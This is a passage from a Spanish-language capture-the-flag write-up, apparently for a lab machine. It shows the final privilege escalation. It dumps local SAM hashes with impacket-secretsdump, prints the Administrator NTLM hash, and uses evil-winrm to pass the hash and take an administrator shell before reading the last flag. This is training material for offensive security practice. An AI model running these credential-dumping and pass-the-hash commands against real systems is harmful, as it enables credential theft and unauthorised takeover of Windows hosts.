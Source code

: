 Ahora con impacket secretdump, obtenemos el hash del administrador:

```
impacket-secretsdump -sam sam.hive -system system.hive LOCAL
```

![escalation](Imagenes/31.png)

Ahora podemos usar el hash para hacer pass the hash con evil-winrm:

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:2b87e7c93a3e8a0ea4a581937016f341:::
```
```
evil-winrm -i 10.10.11.35 -u 'Administrator' -H 2b87e7c93a3e8a0ea4a581937016f341
```

![escalation](Imagenes/32.png)

Visualizamos la última flag:

![escalation](Imagenes/33.png)

